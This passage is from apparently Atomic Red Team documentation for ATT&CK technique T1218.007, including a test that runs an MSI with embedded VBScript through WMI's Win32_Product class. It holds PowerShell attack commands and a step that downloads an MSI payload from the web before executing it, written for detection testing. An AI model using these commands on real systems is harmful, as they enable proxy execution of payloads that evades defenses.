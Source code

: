 
#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```




#### Dependencies:  Run with `powershell`!
##### Description: The MSI file must exist on disk at specified location (#{msi_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{msi_payload}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path "#{msi_payload}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218.007/bin/T1218.007_JScript.msi" -OutFile "#{msi_payload}"
```




<br/>
<br/>

## Atomic Test #6 - WMI Win32_Product Class - Execute Local MSI file with embedded VBScript
Executes an MSI containing embedded VBScript code using the WMI Win32_Product class

**Supported Platforms:** Windows


**auto_generated_guid:** cf470d9a-58e7-43e5-b0d2-805dffc05576





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| msi_payload | MSI file to execute | path | PathToAtomicsFolder&#92;T1218.007&#92;bin&#92;T1218.007_VBScript.msi|
| action | Specifies the MSI action to perform: Install, Admin, Advertise. The included MSI is designed to support all three action types. | string | Install|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-CimMethod -ClassName Win32_Product -MethodName #{action} -Arguments @{ PackageLocation = '#{msi_payload}' }
```
